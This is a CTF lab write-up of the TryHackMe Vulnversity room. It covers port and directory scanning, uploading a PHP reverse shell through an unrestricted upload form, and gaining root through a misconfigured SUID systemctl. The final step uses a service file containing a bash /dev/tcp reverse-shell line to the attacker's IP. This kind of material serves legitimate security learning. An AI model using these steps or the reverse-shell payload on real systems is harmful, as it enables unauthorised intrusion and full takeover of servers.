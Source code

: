 This weekend I completed the Vulnversity room. 
This room was an introductory room. 

It was a webserver exploitation based on PHP and then privilege escalation through their ubuntu web server.

In summary, the server had an upload port where we uploaded a reverse PHP shell, then through this shell escalated our privilages to root using a misconfigured permission on the systemctl program within the Ubuntu server.

Note I have not included the basic setup steps for TryHackMe. 
Initially I started usinmg the provide 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN.

Here is how it went:

Step 1: Reconnaissance

Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interseting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.

Step 2: Attempt to deliver a pay load and comprimise the server

I use Burp to try and findout what types of file extensions I can download. 
Using the sniper attack allows me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

No we deliver the payload:

I uploaded a php-reverse-shell as a .phtml file using the upload page. 
I adjusted the reverse shell script variables so it points to my Kali linux’s vpn IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: nc -lvnp 1234
This will listen for a connection on port 1234. Note the php reverse shell must be set with this port and my IP address so it can make a connection.

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script and received a connection on my netcat listener as follows:

Then we can see the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And I have shell access! 

Searching aroundo on this server, I found the first flag in the user's home folder.

![image](https://user-images.githubusercontent.com/60744763/120155639-6267f480-c234-11eb-9e0a-4a654587ef5a.png)

Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command “find . -perm /4000” to files with the SUID permissions set. 
This showed that "systemctl" had the sticky-bit set, which is not normal. As a normal user can stop, start and even create services.

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this...

I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
Then ran the following command to create the appropriate symlinks and allow the system to run the service: 
systemctl enable /var/www/html/internal/uploads/root.service

![image](https://user-images.githubusercontent.com/60744763/120155982-cc809980-c234-11eb-94ba-2cb1ab4b9bb9.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

Then I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver with the command ‘systemctl start root.service’ 

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120156128-005bbf00-c235-11eb-9ddf-8ac81e94314a.png)

The flag was found in the folder /root/



